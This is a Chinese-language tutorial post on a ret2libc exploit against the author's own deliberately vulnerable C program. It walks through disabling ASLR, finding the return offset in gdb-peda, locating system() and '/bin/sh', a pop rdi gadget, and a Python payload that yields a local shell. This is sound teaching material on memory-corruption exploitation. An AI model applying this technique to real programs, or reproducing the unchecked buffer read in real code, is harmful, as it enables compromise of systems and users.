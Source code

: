 ```yaml
---
title : ret2libc
data : 2017-11-10
tag : pwn
layout : post
---
```


> this is a test not true

## 0x00准备

- 本次实验的机器为`Ubuntu 16.04.2 LTS`64位系统

- 需要关闭ASLR，`echo 0 > /proc/sys/kernel/randomize_va_space`，如果提示权限不够，可能需要用`su`提升权限

- 用`gcc`编译需要关闭`stack-protector`，打开NX

- 需要`gdb` `peda` `python2` `ROPgadget or Ropper` 

- 攻击目标`test.c`， `gcc -g -fno-stack-protector -o test test.c`

  ```c
  #include<stdio.h>
  #include<unistd.h>
  int main(){
  	char buf[10];
  	read(0,buf,80);
  	puts("23333\n");
  	return 0;
  }
  ```

## 0x01分析

测试程序很明显存在一个溢出的漏洞，但不能够写入一段`shellcode`，然后运行，因为此时栈上的数据是不可执行的，也就是打开了NX，可以通过`checksec`来查看程序的保护情况

```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

幸运的是可以使用`ret2libc`加上一点`ROP`，劫持程序执行流，让它运行`system()`

## 0x02确定返回地址的偏移量

  ```
gdb-peda$ pattern_create 100 test.txt
Writing pattern of 100 chars to filename "test.txt"
gdb-peda$ r < test.txt 
...
gdb-peda$ x/wx $rsp
0x7fffffffdd08:	0x44414128
gdb-peda$ pattern_offset 0x44414128
1145127208 found at offset: 24
  ```

  获得返回地址的偏移量24

## 0x03确定相关地址

  ```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a52390 <__libc_system>
gdb-peda$ find '/bin/sh'
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
  ```

因为关掉了`ASLR`所以动态链接库的地址不会变化，可以直接使用`system`函数的地址`0x7ffff7a52390`，字符串`/bin/sh`的地址`0x7ffff7b99d17`

## 0x04构造ROP链

还有一个需要解决的问题，怎样把`/bin/sh`传到`system`函数中去，在`linux64`的系统上，一般使用寄存器传递参数，按照`rdi,rsi,rdx,rcx,r8,r9`的顺序传递，如果参数过多，再用栈传递参数

所以需要一个简短的ROP链`pop rdi;ret`，可以使用工具`Ropper` `ROPgadget`或者直接`objdump`

```
$ ROPgadget --binary test|grep pop|grep rdi
0x0000000000400603 : pop rdi ; ret
```

## 0x05编写payload

```python
from struct import *
buf = 'a'*24
buf += pack('<Q', 0x400603)
buf += pack('<Q', 0x7ffff7b99d17)
buf += pack('<Q', 0x7ffff7a52390)
f = open('test.txt', 'w')
f.write(buf)
f.close()
```

整个流程大概是这样的：

返回地址被`pop rdi`的地址覆盖，所以程序流被控制了，执行`pop rdi;ret`，把栈顶弹出到`rdi`中，栈顶现在是`/bin/sh`的地址，然后它的地址自然被传递到了`rdi`寄存器中，接着执行`ret`，栈顶被弹入到`rip`，也就是`system()`的地址被存入了`rip`，现在调用`system()`函数，参数存在`rdi`中

## 0x06测试

```
$ (cat test.txt;cat)|./test
23333

whoami
void0red
```

可以看到get到了`shell`

## 0x07总结

通过`ret2libc`可以绕过`NX`

